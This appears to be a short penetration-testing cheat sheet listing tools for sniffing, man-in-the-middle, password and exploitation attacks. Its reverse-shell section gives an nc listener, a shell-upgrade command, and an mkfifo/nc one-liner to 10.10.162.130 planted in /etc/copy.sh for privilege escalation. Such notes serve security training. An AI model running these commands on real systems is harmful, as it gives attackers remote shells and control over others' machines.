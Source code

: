
Goal:
- Infiltrate the infrastructure by exploiting security weaknesses!


Gaining System Access Methods:
- Sniffing Attack
- Man-in-the-Middle Attack
- Password Attack
- Exploitation to Vulnerabilities


Sniffing Attack (Network Packet Capture)
- [Wireshark]
- [Tshark]
- [tcpdump]

Man-in-the-Middle (MITM) Attack Tools
- [Ettercap]
- [Bettercap]

Password Attack (Authentication Attack) Tools
- [JtR]: Single Mode / Wordlist / Brute-Force
- [hydra]: Wordlist Attack
- [crunch]: Hybrid Dictionary Attack [crunch]
- [RainbowCrack]: Rainbow Tables <http://project-rainbowcrack.com/table.htm>

Exploitation Attack to Vulnerabilities Tools
- [BeEF]
- [MetaSploit]
- [SQLMap]
- [Manual]: Find the vulnerability and exploit with searchsploi, read it, and run it with python.


Reverse Shell
- [PHP] 
    - Run Listening Server <nc -vnlp 4444>
    - Modify LHOST and LPORT in revers-shell.php
    - Upload and Run reverse-shell
    - Upgrade shell <python3 -c 'import pty;pty.spawn("/bin/bash")'>
    - Privilege Escalation <echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.162.130 4445 >/tmp/f" > /etc/copy.sh>
- [WordPress]
    - Run
    
Python2 to Python3 convertor
- [2to3] <pip install 2to3>
- 2to3 [file or folder] -w
